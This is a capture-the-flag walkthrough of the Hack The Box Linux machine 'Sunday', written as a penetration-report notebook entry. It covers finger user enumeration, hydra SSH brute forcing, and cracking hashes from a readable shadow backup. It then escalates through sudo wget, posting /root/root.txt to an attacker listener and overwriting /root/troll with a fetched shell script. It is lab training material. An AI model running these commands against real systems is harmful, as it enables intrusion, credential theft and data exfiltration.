

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/linux-boxes/sunday-easy
---

# ✅ Sunday (Easy)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** Username Enumerate and Allow BruteForce

**System Vulnerable:** 10.10.10.76

**Vulnerability Explanation:** The machine use Finger service which could allow us to enumerate username and not restrict logon attempt which could allow us to bruteforce. On the machine misconfigure file permission which allow user to read sensitive file and crack password of other user.

**Privilege Escalation Vulnerability:** Misconfigure of restricted permission

**Vulnerability Fix:** Should be disable service Finger and Use Strong password

**Severity:** High

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -p- -sC -sV -T4 10.10.10.76 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-11 02:55 EST
Warning: 10.10.10.76 giving up on port because retransmission cap hit (6).
Stats: 0:21:46 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 81.73% done; ETC: 03:22 (0:04:52 remaining)
Stats: 0:26:01 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 97.99% done; ETC: 03:22 (0:00:32 remaining)
Nmap scan report for 10.10.10.76
Host is up (0.041s latency).
Not shown: 59326 closed ports, 6204 filtered ports
PORT      STATE SERVICE  VERSION
79/tcp    open  finger   Sun Solaris fingerd
|_finger: ERROR: Script execution failed (use -d to debug)
111/tcp   open  rpcbind?
22022/tcp open  ssh      SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
48074/tcp open  rpcbind
61792/tcp open  unknown
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos
```

## Enumeration

### Port 79 Finger

Finger displays information about users on a specified remote computer (typically a computer running UNIX) that is running the finger service or daemon. The remote computer specifies the format and output of the user information display.

Let check if there is any user logged on.

```
└─$ finger @10.10.10.76
No one logged on
```

On finger service could allow us to enumerate user.

```
└─$ finger root@10.10.10.76
Login       Name               TTY         Idle    When    Where
root     Super-User            pts/3        <Apr 24, 2018> sunday 

└─$ finger any@10.10.10.76
Login       Name               TTY         Idle    When    Where
any                   ???
```

We can download the tool [finger-enum](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum) from pentest monkey.

```
./finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76 
```

```
└─$ ./finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76                                                                                                 1 ⨯
Starting finger-user-enum v1.0 ( http://pentestmonkey.net/tools/finger-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Worker Processes ......... 5
Usernames file ........... /usr/share/seclists/Usernames/Names/names.txt
Target count ............. 1
Username count ........... 10177
Target TCP port .......... 79
Query timeout ............ 5 secs
Relay Server ............. Not used

######## Scan started at Thu Nov 11 06:17:00 2021 #########
sammy@10.10.10.76: sammy                 console      <Jul 31, 2020>..
sunny@10.10.10.76: sunny                 pts/2         11 Thu 17:04  10.10.14.31         ..
```

## Exploitation

### BruteForce

As we got 2 interesting username "sammy" and "sunny". Let start bruteforce the password

```
└─$ hydra -l sunny -P /usr/share/wordlists/rockyou.txt 10.10.10.76 -s 22022 ssh -t 4
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-11 06:31:58
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-11-11 07:45:53
```

### SSH

Let connect ssh to the machine with valid credential.

```
└─$ ssh -p 22022 sunny@10.10.10.76                                      
Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
```

We need to add `-oKexAlgorithms` and specify key exchange.

```
└─$ ssh -oKexAlgorithms=diffie-hellman-group-exchange-sha1 -p 22022 sunny@10.10.10.76                                                                                                   255 ⨯
The authenticity of host '[10.10.10.76]:22022 ([10.10.10.76]:22022)' can't be established.
RSA key fingerprint is SHA256:TmRO9yKIj8Rr/KJIZFXEVswWZB/hic/jAHr78xGp+YU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.10.76]:22022' (RSA) to the list of known hosts.
Password: 
Last login: Tue Apr 24 10:48:11 2018 from 10.10.14.4
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sunny@sunday:~$ whoami
sunny
sunny@sunday:~$ pwd
/export/home/sunny
```

## Privilege Escalation

First thing first, I will sudo -l which we can run /root/troll as root without password and it just display the id as root.

```
sunny@sunday:~$ sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll

sunny@sunday:~$ sudo /root/troll
testing
uid=0(root) gid=0(root)
```

On the machine, we see folder **/backup** and there is hash of user sammy.

```
sunny@sunday:~$ cd /backup/
sunny@sunday:/backup$ ls
agent22.backup  shadow.backup
sunny@sunday:/backup$ cat shadow.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Let just save the hash and try to crack it if it's a weak password. Checking the hash type of hashcat seem like it's **sha256crypt $5$**,

```
└─$ hashcat -m 7400 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!
```

We now can ssh to user sammy on other session.

```
└─$ ssh -oKexAlgorithms=diffie-hellman-group-exchange-sha1 -p 22022 sammy@10.10.10.76
Password: 
Last login: Fri Jul 31 17:59:59 2020
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sammy@sunday:~$ whoami
sammy
```

Once I run sudo -l which we can run wget as root permission.

### #1 Wget -i

```
sammy@sunday:~/Desktop$ sudo wget -i /root/root.txt
/root/root.txt: Invalid URL fb40fab61d99d37536daeec0d97af9b8: Unsupported scheme
No URLs found in /root/root.txt.
```

### #2 Wget POST

```
sammy@sunday:~/Desktop$ sudo wget --post-file /root/root.txt http://10.10.14.31:4444
--20:00:59--  http://10.10.14.31:4444/
           => `index.html'
Connecting to 10.10.14.31:4444... connected.
HTTP request sent, awaiting response...   
```

```
└─$ nc -lvp 4444               
listening on [any] 4444 ...
10.10.10.76: inverse host lookup failed: Unknown host
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.76] 34792
POST / HTTP/1.0
User-Agent: Wget/1.10.2
Accept: */*
Host: 10.10.14.31:4444
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

fb40fab61d99d37536daeec0d97af9b8

```

### #3 OverWrite Wget

We can write a script and same the name as troll.

```
#!/bin/bash
bash
```

Let start HTTP Server and let our victim machine grab that file and replace with existing.

```
python -m SimpleHTTPServer
```

So, we have to login 2 sessions. Session 1 on user sammy which has permission to run wget. Once we download the file and replace with the existing one, we go to session 2 on user sunny to execute /root/troll.

```
sammy@sunday:~/Desktop$ sudo wget http://10.10.14.31/troll -O /root/troll                     
--20:05:50--  http://10.10.14.31/troll                                                        
           => `/root/troll'                                                                   
Connecting to 10.10.14.31:80... connected.                                                    
HTTP request sent, awaiting response... 200 OK                                                
Length: 17 [application/octet-stream]                                                         
                                                                                              
100%[==================================================>] 17            --.--K/s              
                                                                                              
20:05:50 (2.41 MB/s) - `/root/troll' saved [17/17]  
```

```
sunny@sunday:/$ sudo /root/troll                                                              
root@sunday:/# id                                                                             
uid=0(root) gid=0(root) groups=0(root),1(other),2(bin),3(sys),4(adm),5(uucp),6(mail),7(tty),8(lp),9(nuucp),12(daemon)                                                                       
root@sunday:/# whoami                                                                         
root
```
